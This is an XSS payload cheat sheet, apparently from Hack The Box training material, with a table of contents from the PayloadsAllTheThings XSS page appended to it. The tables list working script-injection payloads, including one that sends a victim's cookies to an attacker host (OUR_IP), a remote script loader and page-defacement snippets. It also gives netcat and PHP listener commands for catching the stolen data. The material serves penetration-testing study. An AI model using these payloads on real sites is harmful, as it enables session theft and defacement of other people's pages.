 ﻿### XSS Payloads

| Code                                                                                          | Description                                   |
| --------------------------------------------------------------------------------------------- | --------------------------------------------- |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                             |
| `<plaintext>`                                                                                 | Basic XSS Payload (renders page as plaintext) |
| `<script>print()</script>`                                                                    | Basic XSS Payload (triggers print dialog)     |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload                        |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color                       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image                       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title                          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite Website's Main Body                 |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove Certain HTML Element                   |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load Remote Script                            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie Details to Attacker               |

### Commands

| Code                                                                | Description                     |
| ------------------------------------------------------------------- | ------------------------------- |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run XSStrike on a URL parameter |
| `sudo nc -lvnp 80`                                                  | Start Netcat Listener           |
| `sudo php -S 0.0.0.0:80`                                            | Start PHP Server                |


## Summary

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#summary)

- [Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#methodology)
- [Proof of Concept](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#proof-of-concept)
    - [Data Grabber](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber)
    - [CORS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#cors)
    - [UI Redressing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#ui-redressing)
    - [Javascript Keylogger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#javascript-keylogger)
    - [Other Ways](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#other-ways)
- [Identify an XSS Endpoint](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#identify-an-xss-endpoint)
    - [Tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tools)
- [XSS in HTML/Applications](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications)
    - [Common Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#common-payloads)
    - [XSS using HTML5 tags](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-html5-tags)